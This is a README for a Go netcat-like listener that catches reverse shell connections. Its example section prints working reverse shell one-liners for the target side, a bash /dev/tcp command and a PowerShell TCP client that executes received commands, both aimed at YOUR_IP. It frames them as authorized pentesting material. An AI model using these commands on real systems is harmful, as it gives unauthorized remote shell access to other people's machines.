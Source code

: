 # Netcat-like Reverse Shell Handler

A Go implementation of a netcat-like tool for handling reverse shell connections. This tool listens on a specified port and maps stdin/stdout to incoming connections, making it useful for managing reverse shells.

## Features

- Listen on any port and host interface
- Bidirectional I/O mapping between terminal and network connection
- Support for multiple concurrent connections
- Graceful shutdown with Ctrl+C
- Simple command-line interface

## Usage

### Basic Usage

```bash
# Listen on default port 4444 on all interfaces
go run main.go

# Listen on specific port
go run main.go -p 8080

# Listen on specific host and port
go run main.go -h 127.0.0.1 -p 9999
```

### Command Line Options

- `-p <port>`: Port to listen on (default: 4444)
- `-h <host>`: Host/interface to bind to (default: 0.0.0.0)

## Building

```bash
# Build the executable
go build -o netcat main.go

# Run the built executable
./netcat -p 4444
```

## Example Scenarios

### 1. Reverse Shell Handler

**Step 1**: Start the listener
```bash
go run main.go -p 4444
```

**Step 2**: From target machine, connect back with a shell
```bash
# Linux/Mac
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1

# Windows PowerShell
$client = New-Object System.Net.Sockets.TCPClient('YOUR_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

### 2. Simple Chat/Communication

Use this tool to create a simple bidirectional communication channel between two systems.

## How It Works

1. **Listener Setup**: The program binds to the specified host and port
2. **Connection Handling**: Each incoming connection is handled in a separate goroutine
3. **Bidirectional Mapping**: 
   - Data from the network connection is written to stdout
   - Data from stdin is sent to the network connection
4. **Concurrent Support**: Multiple connections can be handled simultaneously

## Security Considerations

⚠️ **Warning**: This tool is designed for educational purposes and authorized testing only. Always ensure you have proper authorization before using this tool in any environment.

- Only use on networks you own or have explicit permission to test
- Be aware that this creates an open port that accepts connections
- Consider firewall rules and network security when running
- Use only for legitimate security testing and educational purposes

## Code Structure

- `main()`: Sets up the listener and handles graceful shutdown
- `handleConnection()`: Manages bidirectional I/O for each connection
- Uses goroutines for concurrent connection handling
- Implements proper error handling and resource cleanup

## Dependencies

This tool uses only Go standard library packages:
- `net` - for network operations
- `io` - for I/O operations  
- `os` - for system operations
- `flag` - for command-line parsing
- `sync` - for synchronization